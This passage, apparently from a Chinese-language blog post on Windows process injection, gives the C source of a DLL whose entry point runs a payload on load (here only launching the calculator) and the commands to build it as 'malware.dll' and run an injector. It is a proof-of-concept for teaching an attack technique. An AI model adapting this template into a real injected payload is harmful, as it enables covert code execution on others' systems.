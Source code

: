 DLL代码：

```c
#include <windows.h>

// 实际执行代码
void RunPayload() {
    WinExec("calc.exe", SW_SHOW); // 弹出计算器
}

// DLL 入口函数
BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
    switch (ul_reason_for_call) {
        case DLL_PROCESS_ATTACH:
            // 当DLL被加载时自动执行
            RunPayload();
            break;
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DETACH:
            break;
    }
    return TRUE;
}
```

编译执行：

```cmd
gcc -o process_inject.exe process_inject.c
gcc -shared -o malware.dll malware.c
.\process_inject.exe
```

结果：

![](/img/2025-02-21-process-inject/2.png)

